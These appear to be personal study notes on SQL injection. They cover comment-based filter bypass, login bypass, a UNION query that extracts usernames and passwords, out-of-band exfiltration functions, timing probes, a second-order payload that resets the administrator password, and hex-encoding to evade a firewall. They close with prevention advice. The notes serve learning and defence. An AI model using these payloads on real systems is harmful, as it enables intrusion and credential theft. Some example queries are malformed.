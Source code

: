 SQL Injection ‘--

Structured Query Language lets you access and manipulate databases.

An insecure site may query it’s database with the following link:

insecuresite.com/products?category=Gifts


Resulting in an SQL Query:

SELECT * FROM products WHERE category = ‘Gifts’ AND released = 1


A malicious actor may embed code that subverts the SQL query logic; appending [’--] (comment, double-dash) completes the SQL syntax and indicates the (original) following code is a COMMENT, and so disregards any further action or filters:

insecuresite.com/products?category=Gifts’--


Resulting in a relatively (for now) benign query to display all ‘Gifts’ category items
SELECT * FROM products WHERE category = ‘Gifts’ AND released = 1


Logging in

Username: 
username’--
Password: 
xxx


SELECT * FROM * [users]
WHERE username = ‘username’-- AND password = ‘xxx’ 

Gifts’ UNION SELECT username, password FROM users--'

“Out of Band Network”
Exfiltrate data through outbound channel via DNS or HTTP.
File operation function: [load_file(), master..xp_dirtree]
Establish connection function: [DBMS_LDAP.INIT, UTL_HTTP.request]

Detecting SQLi Vulnerabilities
Submit logic and observe response to consider what is running in background
‘...
ASCII(97) = ‘a’
‘ OR 1=1–
‘; waitfor delay (‘0:0:20’)--


Second Order SQLi
    Injection of a vulnerability which is processed subsequently to the initial query.
    Server runs the SQLi directly, using its own authority to apply the code.

First Order, on account creation inserts subversive query:

Username: 
badguy’ ;UPDATE users SET password = ‘letmein’ WHERE user = ‘administrator’--
Password: 
xxx


Second Order, when referenced, “username” alters privileged login credentials:
    
SELECT * FROM user_options WHERE user = badguy’ UPDATE users SET password = ‘letmein’ WHERE user = ‘administrator’--


Web Application Firewall Avoidance
WAFs may detect key subversive logic words (SELECT/etc.), encoding the SQL logic may bypass vulnerable WAF settings, dec/hex:

SNOWFLAKE → [HEX ENCODE] → 536E6F77666C616B65
    
Preventing SQi
SELECT    Parameterised Queries to avoid direct concatenation into logic
UPDATE
INSERT
SELECT    Whitelist permitted values OR Use different logic
ORDER BY
